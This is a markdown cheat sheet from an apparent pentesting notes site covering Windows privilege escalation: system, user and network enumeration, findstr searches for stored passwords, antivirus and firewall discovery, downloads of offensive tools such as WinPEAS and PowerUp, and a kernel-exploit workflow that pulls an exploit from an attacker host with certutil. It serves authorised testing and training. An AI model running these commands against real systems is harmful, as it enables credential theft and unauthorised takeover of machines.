 ```yaml
---
title: Windows Privilege Escalation
layout: default
nav_order: 2
parent: Privilege Escalation

---
```


# Windows Privilege Escalation
{: .no_toc }
## Table of Contents
{: .no_toc .text-delta }
1. TOC
{:toc}
### System Enum

Get System Information
```bash
systeminfo
```
Grabbing OS Name and Version
```bash
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```
View patches
```bash
wmic qfe
```

```bash
wmic qfe get caption,Description,HotFixId,InstalledOn
```

Get list of Drives
```bash
wmic logicaldisk get caption,description,providername
```



### User Enum
Get current user
```bash
whoami
```
Get current user privileges
```bash
whoami /priv
```

Get list of groups current user is inside of
```bash
whoami /groups
```

List users on machine
```bash
net user
```

```bash
net user $USER
```

Query group membership

```bash
net localgroup
```

```bash
localgroup <group name>
```

### Network Enum
List IP addresses and network configs
```bash
ipconfig /all
```

Dump arp cache 
```bash
arp -a
```
*Note: If the IP Address for `arp -a` is different from the default gateway or DNS, it could be a sign of the machine being connected to an AD Domain Controller.*

List route table 
```bash
route print
```

List ports and listening ports
```bash
netstat -ano
```

### Password Searching

Searching for passwords in current directory
```bash
findstr /si password *.txt *.ini *.config 
```
```bash
findstr /si Password: *.txt *.ini *.config 
```

```bash
findstr /si Username: Password: *.txt *.ini *.config 
```

```bash
findstr /si password= *.txt *.ini *.config 
```

### Antivirus Enum

Discovering AV (Windows Defender)
```bash
sc query windefend
```

Discovering services
```bash
sc query type=service
```

Discovering firewalls 
```bash
netsh advfirewall firewall dump
```
Discovering firewalls (Legacy) 
```bash
netsh firewall show state
```

Firewall config 
```bash
netsh firewall show config
```

### Automated Tools 
Tools that perform automated privesc enum on Windows boxes: 

**WinPEAS**

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEAS.bat

wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany.exe
```
*If WinPEASany.exe fails, it may either be blocked by antivirus or the target **does not have .NET version 4.0**. Try to run WinPEAS.bat instead.*

**Seatbelt**

```bash
https://github.com/GhostPack/Seatbelt
```

**Watson** 

```bash
https://github.com/rasta-mouse/Watson
```

**SharpUp**

```bash
https://github.com/GhostPack/SharpUp
```

**windows-exploit-suggester**

```bash
wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py
```

**Sherlock.ps1** 

```bash
wget https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1
```

**PowerUp.ps1**

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```

**jaws-enum.ps1**

```bash
wget https://raw.githubusercontent.com/411Hall/JAWS/master/jaws-enum.ps1
```

### Kernel Exploits


1. Run `windows-exploit-suggester.py` and choose an exploit from the listed output
```bash
python windows-exploit-suggester.py --database $DB --systeminfo /path/to/sysinfo.txt
```
2. Run lightweight python server on Kali machine to host exploit executable: 
```bash
python3 -m http.server 80
```
3. Navigate to `temp` folder on windows target: 
```bash
cd C:\Windows\temp
```
4. Use `Certutil` to grab exploit from kali machine: 
```bash
certutil -urlcache -f http://$IP/Exploit.exe
```
5. Run the exploit